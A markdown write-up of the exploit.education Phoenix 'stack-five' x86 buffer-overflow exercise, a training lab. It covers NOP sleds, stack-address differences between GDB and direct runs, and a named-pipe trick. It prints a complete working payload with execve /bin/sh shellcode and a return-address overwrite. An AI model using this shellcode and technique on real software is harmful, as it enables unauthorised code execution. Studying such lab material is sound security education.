 # https://exploit.education/phoenix/stack-five/ (x86)

### This challenge is relatively straightforward, you need to place a shell code into stack and make sure return address points to the beginning. 
### Nevertheless, when you encounter something similar for the first time, you can waste a lot of time on some of the following caveats:
* First thing to keep in mind, compiler may decide to reserve more space on the stack than the size of variables / arrays in the function. Use debugger to find out the stack layout for your architecture
* Even with ASLR disabled the exact address of stack in your function can be different depending on the environment (more on this further). It is a good practice to use [Nop Sleds](https://en.wikipedia.org/wiki/Buffer_overflow#NOP_sled_technique) (unless IDPS is in place that searches for this pattern)
* There are different ways to print raw binary data, but most of them are either limited or unreliable. Consider these examples :
    * **echo -n -e "\x90\x90"**  - this is good, but limited, you have to type your whole exploit manually as it is
    * **python -c "print('A'*32 + '\xde\xad')"*** - the problem with this is the added **NL** char. 
    * **print('\90'*32, end='')*** - this solves the previous issue, but apparently python's *print* still does not work properly with binary data > 0x7F (just try the above example yourself and see what happens)

    The most reliable and relatively simple way to print binary data with python I found is this :
    ```console
    python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
    ```
* There can be a very annoying small difference between stack address when debugging inside GDB vs running the executable. You will first encounter this when your exploit will be working perfectly inside GDB, but will crash the exe when run directly. The reason for this is that the exact stack address inside your function of interest depends heavily on the enviromnent where exe runs - mostly on the exact set of the environment variables and arguments (including arg0 which can be full path to executable and can be relative). All of the above resides on stack and thus the exact address range used by the stack of the exploited function moves. In order to have the perfect match between GDB and direct execution you need to :
    * Always run the executable with the full path 
    * Undefine ```LINES``` and ```COLUMNS``` environment variables inside GDB
    * More info [here](https://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)
* You finally saw with your own bare eyes that ```/bin/sh``` is getting executed inside GDB, but when your run the exe directly .... nothing happens, there is no crash (if you sorted out the previous issue correctly), but there is no *bash* spawned either. In this particular exercise the exploit is triggered by the input received from stdin. The catch is that the *bash* **is** spawned, but it is closed immediately because ```EOL``` is reached in your input. In order to prevent this and see your exploit working, you need to prevent the input pipe from being closed. One of the ways to achieve this is by using pipes :
```console 
   # Create a named pipe : 
    mkfifo my_fifo

   # in the same console open a cat process that will allow you to write to it 
   # and keep it open:
   cat > my_fifo
```

``` console
   # open another console and redirect contents of your pipe to exe:
   cat my_fifo | /opt/phoenix/i486/stack-five
```

```console
   # open yet another console and redirect your exploit to the pipe there
   echo "your cool exploit" > my_fifo
```

``` console
   # go back to the first console and type shell commands there
   # you will see the output in the second console where your exe runs:

   ls # for some reason the first command does not work 
   ls
     
   cat my_fifo | /opt/phoenix/i486/stack-five
   Welcome to phoenix/stack-five, brought to you by https://exploit.education
   a.out    bin2shell.sh  stack-six   syscall.S  syscall32.S

```

## Finally, The solution to the above exercise (fox x86) :

```console
python3 -c "import sys; sys.stdout.buffer.write (b'\x90' * 0x60 + b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80' + b'\x90' * 0x15 + b'\xd0\xd6\xff\xff')"
```
1. A series of NOPS
2. execve shellcode 
3. some more NOPS
4. Return address overwrite - should point somewere in between the first 60 NOPS
